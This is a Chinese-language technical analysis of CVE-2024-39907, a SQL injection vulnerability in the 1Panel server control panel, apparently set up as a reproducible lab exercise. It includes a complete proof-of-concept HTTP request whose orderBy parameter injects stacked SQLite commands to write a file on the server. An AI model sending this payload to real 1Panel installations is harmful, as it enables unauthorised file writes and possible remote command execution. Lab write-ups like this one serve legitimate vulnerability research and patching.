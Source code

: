 # CVE-2024-39907：1Panel控制面板SQL注入漏洞深度分析

CVE-2024-39907是一个影响1Panel服务器管理控制面板的严重安全漏洞，涉及多个SQL注入点，可能导致远程命令执行(RCE)。以下是对该漏洞的详细技术分析。

## 漏洞概述

CVE-2024-39907是1Panel控制面板中存在的多个SQL注入漏洞集合，这些漏洞存在于1Panel的多个接口中，部分注入点由于过滤不善，可能导致攻击者实现任意文件写入，最终达成远程命令执行(RCE)12。

1Panel是一款基于Web的Linux服务器管理控制面板，提供服务器管理的图形化界面。该漏洞影响1Panel v1.10.9-lts及更早版本，已在v1.10.12-tls版本中得到修复2。

参考链接：

- [nuclei-templates/http/cves/2024/CVE-2024-39907.yaml at main · projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-39907.yaml)
- https://hub.docker.com/r/moelin/1panel

## 漏洞环境

执行如下命令启动一个有漏洞的1Panel v1.10.10-lts：

```
docker compose up -d
```

- 默认端口：`10086`
- 默认账户：`1panel`
- 默认密码：`1panel_password`
- 默认输入：`entrance`

然后访问`http://your-ip:10086/entrance`即可看到登录页面，使用默认账户密码登录。

## 漏洞复现

漏洞主要存在于1Panel的API接口中，特别是`/api/v1/hosts/command/search`接口。攻击者可以通过精心构造的请求参数触发SQL注入2。

一个典型的POC请求如下：

```
POST /api/v1/hosts/command/search HTTP/1.1
Host: 192.168.8.128:8877
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Referer: http://192.168.8.128:8877/aaa
Accept-Encoding: gzip, deflate
Cookie: psession=you-session
Connection: close
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

通过尝试创建数据库文件来确认注入是否成功。

![image-20250618234105405](https://github.com/vulhub/vulhub/1panel/CVE-2024-39907/1.png)

## 限制与注意事项

1. **需要有效会话**：如Cookie中的`psession=you-session`所示，攻击者需要先获取有效认证凭证
2. **SQLite特定语法**：这个POC使用了SQLite特有的命令，表明1Panel后端使用SQLite数据库
